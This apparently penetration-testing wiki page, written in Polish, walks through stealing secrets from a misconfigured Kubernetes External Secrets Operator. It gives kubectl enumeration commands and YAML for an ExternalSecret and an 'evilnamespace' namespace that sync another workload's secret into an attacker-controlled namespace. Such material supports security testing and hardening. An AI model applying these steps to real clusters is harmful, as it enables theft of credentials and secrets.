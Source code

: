 # External Secret Operator

**Oryginalnym autorem tej strony jest** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ta strona zawiera wskazówki dotyczące tego, jak możesz ukraść sekrety z niewłaściwie skonfigurowanego ESO lub aplikacji, która używa ESO do synchronizacji swoich sekretów.

## Zastrzeżenie

Technika pokazana poniżej może działać tylko wtedy, gdy spełnione są określone okoliczności. Na przykład, zależy to od wymagań potrzebnych do umożliwienia synchronizacji sekretu w przestrzeni nazw, którą posiadasz / skompromitowałeś. Musisz to ustalić samodzielnie.

## Wymagania wstępne

1. Utrzymanie w klastrze kubernetes / openshift z uprawnieniami administratora w przestrzeni nazw
2. Dostęp do odczytu przynajmniej do ExternalSecret na poziomie klastra
3. Ustal, czy są wymagane jakiekolwiek etykiety / adnotacje lub członkostwo w grupie, które pozwalają ESO na synchronizację twojego sekretu. Jeśli masz szczęście, możesz swobodnie ukraść dowolny zdefiniowany sekret.

### Zbieranie informacji o istniejącym ClusterSecretStore

Zakładając, że masz użytkownika, który ma wystarczające uprawnienia do odczytu tego zasobu; zacznij od wymienienia istniejących _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### Enumeracja ExternalSecret

Załóżmy, że znalazłeś ClusterSecretStore o nazwie _**mystore**_. Kontynuuj, enumerując jego powiązany externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ten zasób jest ograniczony do przestrzeni nazw, więc jeśli nie wiesz, której przestrzeni nazw szukać, dodaj opcję -A, aby przeszukać wszystkie przestrzenie nazw._

Powinieneś otrzymać listę zdefiniowanych externalsecret. Załóżmy, że znalazłeś obiekt externalsecret o nazwie _**mysecret**_, zdefiniowany i używany przez przestrzeń nazw _**mynamespace**_. Zbierz trochę więcej informacji na temat tego, jakiego rodzaju sekret on przechowuje.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Z tego miejsca możesz uzyskać nazwę jednego lub wielu sekretów (tak jak zdefiniowano w zasobie Secret). Otrzymasz wynik podobny do:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Jak dotąd mamy:

- Nazwa ClusterSecretStore
- Nazwa ExternalSecret
- Nazwa sekretu

Teraz, gdy mamy wszystko, czego potrzebujemy, możesz stworzyć ExternalSecret (a w razie potrzeby zaktualizować/stworzyć nową Namespace, aby spełnić wymagania potrzebne do synchronizacji nowego sekretu):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Po kilku minutach, jeśli warunki synchronizacji zostały spełnione, powinieneś być w stanie zobaczyć wyciekły sekret w swoim przestrzeni nazw.
```sh
kubectl get secret leaked_secret -o yaml
```
## Odniesienia

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
